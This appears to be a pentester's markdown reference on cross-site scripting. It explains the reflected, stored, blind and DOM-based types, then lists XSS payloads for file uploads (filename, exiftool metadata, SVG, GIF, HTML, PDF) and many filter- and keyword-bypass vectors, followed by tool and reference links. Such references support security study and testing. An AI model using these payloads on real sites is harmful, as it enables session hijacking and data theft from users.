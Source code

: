 ```yaml
---
description: Below are some references for the Cross-site scripting attacks.
---
```


# **Cross-site scripting (XSS)** #

### **Concept** ###

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data.

### **Types of XSS** ####

* Reflected cross-site scripting.
* Stored cross-site scripting. \[Blind XSS comes under S-XSS)
* Document Object Model-based cross-site scripting

### **Reflected Cross-Site Scripting** ###

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

### **Stored Cross-Site Scripting** ###

Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. Stored XSS allows potential attackers to inject client-side scripts directly onto target servers. This is not just a single user issue, however, it affects everyone who has access to these servers. Once attackers find a vulnerability in the web application, they can inject their script and wait for an unsuspecting target to fall into their trap. Sites that allow their users to share content (like blogs or social networking sites) are often the most targeted. The injected script is permanently stored on the now infected servers and allows the attacker to set their targets up to receive the malicious script from the servers when they make a request.

### **Blind Cross-Site Scripting** ###

Blind XSS vulnerabilities are a variant of persistent XSS vulnerabilities. They occur when the attacker input is saved by the web server and executed as a malicious script in another part of the application or in another application. For example, an attacker injects a malicious payload into a contact/feedback page and when the administrator of the application is reviewing the feedback entries the attacker’s payload will be loaded. The attacker input can be executed in a completely different application (for example an internal application where the administrator reviews the access logs or the application exceptions).

### **Document Object Model-based Cross-Site Scripting** ###

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

### **XSS via file upload payloads** ###

**XSS in a filename**

```markup
"><img src=v onerror=prompt(xss);>.jpeg
```

#### **Metadata (exit tool)** ####

```markup
exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’
brute.jpeg
```

#### **SVG content XSS (save the below content in SVG file)** ####

```markup
<svg xmlns="http://www.w3.org/2000/svg"
onload="alert(document.domain)"/>
```

#### **Gif extension XSS (save the below content in gif file)** ####

```markup
GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
```

#### **Html extension (save the below content in HTML file)** ####

```markup
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script type="text/javascript">alert(document.cookie)</script>
<script>prompt(1);</script>
</body>
</html>
```

#### **PDF extension (When content-type is not checked and magic bytes and file extensions are being checked).** ####

```markup
%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<img src=x onerror=alert(document.cookie)>
```

## **Payloads** #

#### **Bypassing First Filter** ####

```javascript
\<svg//////onload=alert(1)>
```

```javascript
\<svg id=x;onload=alert(1)>
```

```javascript
\<svg id=\`x\`onload=alert(1)>
```

```javascript
\<svg%09onload=alert(1)>
```

```javascript
\<svg onload%09=alert(1)>
```

```javascript
\<svg%09onload%20=alert(1)>
```

```javascript
\<svg onload%09%20%28%2C%3B=alert(1)>
```

```javascript
\<svg onload+0B=alert(1)>
```

```javascript
\<script>\u0061lert(1)\</script>
```

```javascript
\<script>\u0061\u006c\u0065\u0072\u0074(1)\</script>
```

```javascript
\<img src=x onerror="\u0061lert"/>
```

```javascript
\<img src=x onerror="eval('\141lert(1)')"/>
```

```javascript
\<img src=x onerror="eval('\x61lert(1)')"/>
```

#### **Javascript Keyword is blocked** ####

```javascript
\<object data="JaVaScRiPt:alert(1)">
```

```javascript
\<object data="javascript\&colon;alert(1)">
```

```javascript
\<object data="java &#x20;&#x20;script:alert(1)">
```

```javascript
\<object data="javascript\&#x003A;alert(1)">
```

```javascript
\<object data="javascript\&#58;alert(1)">
```

```javascript
\<object data="\&#x6A;avascript;alert(1)">
```

```javascript
\<object data="\&#x6A;\&#x61;\&#x76;\&#x61;\&#x73;\&#x63;\&#x72;\&#x69;\&#x70;74;\&#x3A;alert(1)">
```

```javascript
\<object data="data:text/html,\<script>alert(1)\</script>">
```

```javascript
\<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

### **Tools** ###

- [https://xsshunter.com](https://xsshunter.com)
The Best tool for Blind XSS


- [https://github.com/ssl/ezXSS](https://github.com/ssl/ezXSS)
Has 2fa, email reports, share reports feature


- [https://knoxss.me/](https://knoxss.me/)
Knoxss


- [https://www.irongeek.com/homoglyph-attack-generator.php](https://www.irongeek.com/homoglyph-attack-generator.php)

- [https://portswigger.net/burp/documentation/collaborator](https://portswigger.net/burp/documentation/collaborator)

### **Automation XSS** ###

- [https://github.com/theinfosecguy/QuickXSS](https://github.com/theinfosecguy/QuickXSS)

### **References** ###

- [Reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected)

- [Stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored)

- [Document Object Model-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based)

- [Blind Cross-site scripting](https://medium.com/@R0X4R/introduction-to-blind-xss-417dcf9c842c)

- [https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)

- [https://www.youtube.com/watch?v=gkMl1suyj3M](https://www.youtube.com/watch?v=gkMl1suyj3M)

- [https://brutelogic.com.br/blog/](https://brutelogic.com.br/blog/)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

- [https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d](https://medium.com/@bhaveshthakur2015/content-security-policy-csp-bypass-techniques-e3fa475bfe5d)

- [https://t.co/7O45xvRMf4?amp=1](https://t.co/7O45xvRMf4?amp=1)

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

- [https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

- [https://github.com/s0md3v/AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

